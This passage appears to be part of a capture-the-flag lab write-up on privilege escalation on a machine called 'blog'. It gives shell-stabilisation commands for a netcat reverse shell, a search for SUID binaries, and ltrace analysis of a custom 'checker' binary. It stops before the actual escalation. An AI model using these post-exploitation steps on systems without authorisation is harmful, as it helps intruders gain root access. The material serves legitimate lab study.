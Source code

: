 
# PRIVILEGE ESCALATION
---


If we migrated to netcat we can stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

We can begin by checking the `SUID 4000` binaries 

```
find / -perm -4000 2>/dev/null
```

We can find this:

![Pasted image 20250328152927.png](../../IMAGES/Pasted%20image%2020250328152927.png)

There's something unusual, a binary called `/usr/sbin/checker`, let's check it out:

```
www-data@blog:/usr/sbin$ ltrace checker
getenv("admin") = nil
puts("Not an Admin"Not an Admin
) = 13
+++ exited (status 0) +++
```

- The binary checks for the environment variable`admin` using`getenv("admin")`.
- If`admin` is not set (`nil`), it prints`"Not an Admin"` and exits.
- **Goal**: Trick the binary into thinking`admin` is set to trigger privileged code (likely a root shell or action).
